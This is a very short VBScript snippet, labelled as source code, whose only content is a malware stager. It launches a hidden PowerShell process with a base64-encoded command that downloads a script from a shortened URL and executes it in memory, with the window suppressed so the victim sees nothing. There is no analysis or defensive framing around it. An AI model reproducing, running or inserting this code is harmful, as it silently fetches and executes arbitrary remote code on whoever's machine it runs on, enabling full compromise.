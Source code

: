 Dim objShell
Set objShell = WScript.CreateObject( "WScript.Shell" )
command = "powershell -W hidden -nop  -enc SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZgB1AHIALgBsAHkALwBhAG4AMgBlACcAKQA=" 
objShell.Run command,0
Set objShell = Nothing
